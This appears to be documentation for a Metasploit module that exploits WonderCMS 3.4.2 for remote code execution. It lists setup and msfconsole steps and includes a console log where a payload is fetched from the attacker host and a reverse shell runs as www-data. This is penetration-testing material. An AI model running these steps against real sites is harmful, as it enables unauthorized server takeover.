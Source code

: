 ## Vulnerable Application

[WonderCMS](https://www.wondercms.com/) is a free and open-source Content Management System (CMS). The main advantage is that only one PHP file controls the whole management. Follow next steps to install application:

1. Install Apache2 and PHP on server
2. Download WonderCMS from [here](https://github.com/WonderCMS/wondercms/releases/download/3.4.2/wondercms-342.zip)
3. Enable Apache2 Rewrite Engine: `sudo a2enmod rewrite`


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use multi/http/wondercms_rce`
4. Do: `set PASSWORD [password]`
5. Do: `set LHOST [attacker IP]`
6. Do: `set LPORT [attacker PORT]`
4. Do: `run`
5. You should get a shell.

## Options

### PASSWORD

WonderCMS uses a global password that generated at the application's first run. This is global admin password that controls the whole CMS. This password has to be used in the exploit to get authenticated access.

## Scenarios

```
msf6 exploit(multi/http/wondercms_rce) > set LHOST 192.168.168.152
LHOST => 192.168.168.152
msf6 exploit(multi/http/wondercms_rce) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/http/wondercms_rce) > exploit
[*] Exploit running as background job 28.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/wondercms_rce) > 
[*] Started reverse TCP handler on 192.168.168.152:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Target is probably WonderCMS..
[+] The target is vulnerable. Version 3.4.2 is affected
[*] Using URL: http://192.168.168.152:8082/81k4.zip
[*] Received request, sending payload..
[*] Server stopped.
[*] Command shell session 5 opened (192.168.168.152:4444 -> 192.168.168.146:37068) at 2025-04-25 14:46:20 +0200

msf6 exploit(multi/http/wondercms_rce) > sessions 5
[*] Starting interaction with 5...

whoami
www-data
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

